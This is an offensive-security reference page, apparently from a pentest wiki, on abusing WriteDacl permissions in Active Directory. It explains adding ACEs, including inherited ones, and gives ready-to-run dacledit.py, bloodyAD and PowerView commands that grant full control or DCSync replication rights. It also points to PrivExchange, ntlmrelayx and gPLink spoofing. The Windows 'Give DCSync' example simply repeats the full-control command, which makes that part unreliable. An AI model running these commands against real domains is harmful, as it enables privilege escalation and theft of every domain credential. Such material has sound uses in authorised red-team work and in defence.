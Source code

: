 # Grant rights

This abuse can be carried out when controlling an object that has `WriteDacl` over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.

Instead of giving full control, the same process can be applied to allow an object to [DCSync](../credentials/dumping/dcsync.md) by adding two ACEs with specific Extended Rights (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Giving full control leads to the same thing since `GenericAll` includes all `ExtendedRights`, hence the two extended rights needed for DCSync to work.

Story time, Exchange Servers used to have `WriteDacl` over domain objects, allowing attackers to conduct a [PrivExchange](../exchange-services/privexchange.md) attack where control would be gained over an Exchange Server which would then be used to grant an attacker-controlled object DCSync privileges to the domain.

{% hint style="info" %}
**ACE inheritance**

If attacker can write an ACE (`WriteDacl`) for a container or organisational unit (OU), if inheritance flags are added (`0x01+ 0x02`) to the ACE, and inheritance is enabled for an object in that container/OU, the ACE will be applied to it. By default, all the objects with `AdminCount=0` will inherit ACEs from their parent container/OU.

Impacket's dacledit (Python) can be used with the `-inheritance` flag for that purpose ([PR#1291](https://github.com/fortra/impacket/pull/1291)).

**adminCount=1**

In April 2024, [Synacktiv explained](https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) that if `GenericAll`, `GenericWrite` or `Manage Group Policy Links` privileges are available against an Organisational Unit (OU), then it's possible to compromise its child users and computers with `adminCount=1` through "gPLink spoofing".

This can be performed with [OUned.py](https://github.com/synacktiv/OUned).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

```bash
# Give full control
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'
```

For a DCSync granting attack, instead of using dacledit, [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) has the ability to operate that abuse with the `--escalate-user` option (see [this](https://medium.com/@arkanoidctf/hackthebox-writeup-forest-4db0de793f96)).

To enable inheritance, the `-inheritance` switch can be added to the command. Then it is possible to find interesting targets with `AdminCount=0`in BloodHound for example, by looking at the object attributs.

```bash
# Give full control on the Users container with inheritance to the child object
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=Users,DC=domain,DC=local' -inheritance 'domain'/'user':'password'
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Give full control (with inheritance to the child object if applicable)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll $TargetObject $ControlledPrincipal

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync $ControlledPrincipal
```
{% endtab %}

{% tab title="Windows" %}
From a Windows system, this can be achieved with [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Give full control
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```

{% hint style="info" %}
A few tests showed the `Add-DomainObjectAcl` command needed to be run with the `-Credential` and `-Domain` options in order to work
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync" %}
